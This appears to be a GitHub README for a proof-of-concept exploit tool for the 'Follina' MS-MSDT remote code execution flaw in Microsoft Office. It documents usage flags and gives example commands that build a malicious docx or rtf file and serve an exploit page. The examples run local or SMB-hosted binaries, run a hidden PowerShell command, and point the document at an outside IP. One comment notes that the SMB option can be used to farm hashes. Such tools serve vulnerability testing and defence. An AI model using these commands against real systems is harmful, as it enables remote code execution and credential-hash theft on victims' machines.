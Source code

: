 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate a `clickme.docx` (or `clickme.rtf`) payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see help and examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
$ python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] -t {rtf,docx} [-u URL] [-H HOST] [-P PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -t {rtf,docx}, --type {rtf,docx}
                        The type of payload to use, can be "docx" or "rtf"
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost". Disables web server if custom URL scheme or path are specified
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```
